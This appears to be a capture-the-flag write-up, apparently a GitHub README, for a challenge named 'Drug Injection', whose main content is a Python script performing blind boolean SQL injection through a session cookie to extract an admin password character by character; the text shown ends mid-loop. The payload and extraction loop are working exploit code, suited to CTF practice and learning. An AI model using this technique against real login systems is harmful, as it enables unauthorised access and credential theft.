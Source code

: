 ## Drug Injection Challenge Solver

### Introduction
This script is designed to solve the Drug Injection challenge, which involves SQL injection on a login page.

### Challenge Details
I made a Drug awareness website for my Drug Addict friend as a joke to help him get over his addiction. He kept complaining about not being able to login. He Scored an injection drug. I tried to convince him that he should stop getting High before he tries to login. injections won't always help u to get HIGHer access. He was not satisfied with just a single injection, he wanted to try Double Dose. How do I convince him to stop. Help me spread awareness.

### Script Description
Flag is the admin's password.

There are 2 points where you can inject your payload and perform SQL injection.
1. Login page
2. Cookie value (as the cookie is directly taken from the database according to the username)

Here is the script for the end point 2: 

```python
import requests

# Welcome page URL of the challenge
url = '<url>/welcome.php'

r = requests.Session()

cookie1 = {
    'Session': '<Your cookie value>'
}

res = r.get(url=url, cookies=cookie1)

char_set = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_}{"

sess_cookie = cookie1['Session']
print(sess_cookie)

count = 1
password = ''
while count <= 57:
    for char in char_set:
        # SQL injection payload
        payload = "' AND (SELECT SUBSTRING(password, " + str(count) + ", 1) FROM users WHERE username='admin')='" + char
        cookie = {'Session': sess_cookie + payload}
        test = r.get(url=url, cookies=cookie)

        if "Welcome, Sir!" in test.text:
            password += char
            print(f"[+] password: {password}")
            count += 1
